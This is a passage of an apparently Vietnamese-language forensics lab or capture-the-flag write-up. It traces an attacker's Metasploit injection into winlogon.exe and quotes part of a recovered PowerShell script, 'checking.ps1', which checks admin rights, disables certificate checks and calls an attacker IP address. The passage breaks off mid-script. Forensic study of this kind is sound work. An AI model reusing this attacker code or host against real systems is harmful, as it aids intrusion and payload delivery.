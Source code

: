 **Process injection is often used by attackers to escalate privileges within a system. What process did the attacker inject the C2 into to gain administrative privileges?**

Trong Event log, ta cũng có thể tìm thấy thời điểm hacker đăng nhập thành công, thực hiện `xp_cmdshell` và sau đó thì có một mục khá là đáng nghi

```
Provider "Environment" is Started. 

Details: 
	ProviderName=Environment
	NewProviderState=Started

	SequenceNumber=5

	HostName=MSFConsole
	HostVersion=0.1
	HostId=1693e66c-ce22-41d0-8356-4245271c31e8
	HostApplication=winlogon.exe
	EngineVersion=
	RunspaceId=
	PipelineId=
	CommandName=
	CommandType=
	ScriptName=
	CommandPath=
	CommandLine=
```

Powershell được chạy trong chương trình `winlogon.exe` bởi `MSFConsole`, Powershell thường rất ít được chạy trong đây mà Host của nó lại là `MSFConsole` chắc chắn rằng hacker đã inject Metasploit C2 framework vào `winlogon.exe` rồi

`winlogon.exe`

## Q6

**Following privilege escalation, the attacker attempted to download a file. Can you identify the URL of this file downloaded?**

Tại TCP stream 1179 người dùng có gửi một request đến ip của hacker tải về một file `checking.ps1`

```powershell
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
$osver = ([environment]::OSVersion.Version).Major

$WarningPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }

$url = "http://87.96.21.84"

Function Test-URL {
    param (
        [string]$url
    )
    
    try {
        $request = Invoke-WebRequest -Uri $url -UseBasicParsing -TimeoutSec 5 -ErrorAction Stop
        if ($request.StatusCode -eq 200) {
            return $true
        } else {
            return $false
        }
    } catch {
        return $false
```